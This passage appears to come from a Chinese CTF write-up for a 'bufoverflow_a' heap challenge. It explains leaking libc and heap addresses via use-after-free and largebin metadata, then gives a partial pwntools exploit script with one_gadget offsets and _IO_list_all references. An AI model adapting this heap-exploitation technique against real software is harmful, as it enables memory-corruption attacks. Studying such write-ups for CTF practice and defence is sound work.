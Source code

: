 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>程序可以用UAF轻易的泄漏出libc地址，但是chunk地址还是要费一些功夫的，但也不难，因为堆数量不大于2个的时候都是用malloc分配的，所以再次分配的时候有残留数据可以leak。因此我们首先分配一个largebin和若干其他堆，然后释放这个largebin和另一个堆块，这样我们有了两个unsortedbin，然后根据unsortedbin FIFO的原则，我们分配较小的那个链表末尾的堆块，然后第一个largebin堆块会被放入largebin list，然后因此这个largebin的fd_nextsize和bk_nextsize会被赋值，因此可以泄漏了（释放所有堆块，计算好fd的位置分配两个堆块，show第二个就可以leak了，如果还是不懂可以看我的how2pwn里的calloc_leak.c）。</font></br>

```python
from pwn import *

p=process('./bufoverflow_a',env={'LD_PRELOAD':'./libc.so.6'})
elf=ELF('./libc.so.6')

_IO_list_all=elf.symbols['_IO_list_all']
_IO_file_jumps=elf.symbols['_IO_file_jumps']
#one_gadget=0x3f4d6
one_gadget=0x3f52a
#one_gadget=0xd6655


context.log_level=1

sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='>> '

def add(size):
    sla(menu,'1')
    sla('Size: ',str(size))

def dele(index):
    sla(menu,'2')
    sla('Index: ',str(index))

def edit(content):
    sla(menu,'3')
    sla('Content: ',content)

def show():
    sla(menu,'4')


#leak libc base
add(0x100)      # 0
add(0x100)      # 1

dele(0)
dele(1)

add(0x100)      # 0
show()
libc_base=u64(p.recv(6)+2*'\x00')-0x399b58
log.info('libc base is:'+hex(libc_base))

dele(0)

# clear heap
##############################
# leak chunk base

add(0x100)      # 0
```
